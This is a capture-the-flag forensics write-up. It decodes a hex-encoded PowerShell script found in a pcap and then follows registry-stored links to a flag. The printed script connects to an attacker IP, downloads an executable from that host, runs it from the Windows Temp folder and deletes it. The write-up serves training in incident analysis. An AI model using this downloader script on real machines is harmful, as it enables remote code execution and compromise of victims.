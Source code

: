 # Description :

> In the past few days, I’ve noticed unusual changes on the employee’s computer. Fortunately, I found a pcap file that might provide some clues about what’s happening !!

> Author : Mr_Togoo


During the analysis of a PCAP file, you found this PowerShell script in hex.



![Screenshot 2025-03-26 124505](https://github.com/user-attachments/assets/72028b6d-d1f5-4f41-bfff-3df356a222d1)



So, when decoded, it reveals:


```
$attacker_ip = "10.0.2.30"
$attacker_port = 9999
$client = New-Object System.Net.Sockets.TCPClient($attacker_ip, $attacker_port)
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true

Invoke-Expression "powershell -nop -w hidden -c ""$client.GetStream().Write([System.Text.Encoding]::ASCII.GetBytes('Hello'))"""

Invoke-WebRequest -Uri "http://$attacker_ip/impermeable" -OutFile "C:\Windows\Temp\impermeable"
Start-Process "C:\Windows\Temp\impermeable"
Remove-Item "C:\Windows\Temp\impermeable"

```


An executable file entered the system and then removed itself, which could be considered anomalous behavior. When we reverse-engineered it, we found that it wrote two values in two registers, corresponding to two links:

- [https://www.mediafire.com/file/lc6fv6esqpaep1m/flag.zip/file](https://www.mediafire.com/file/lc6fv6esqpaep1m/flag.zip/file)
- [https://www.mediafire.com/file/erpwhdxpdfwtqky/Password.rar/file](https://www.mediafire.com/file/erpwhdxpdfwtqky/Password.rar/file)

Now, we can download the two files and open the `flag.zip` using the `Password.rar`


And congrats , you got the flag!!!

FLAG : 
>CSP{Bs@htk_Ts5in@t_Abn_3@Mi}

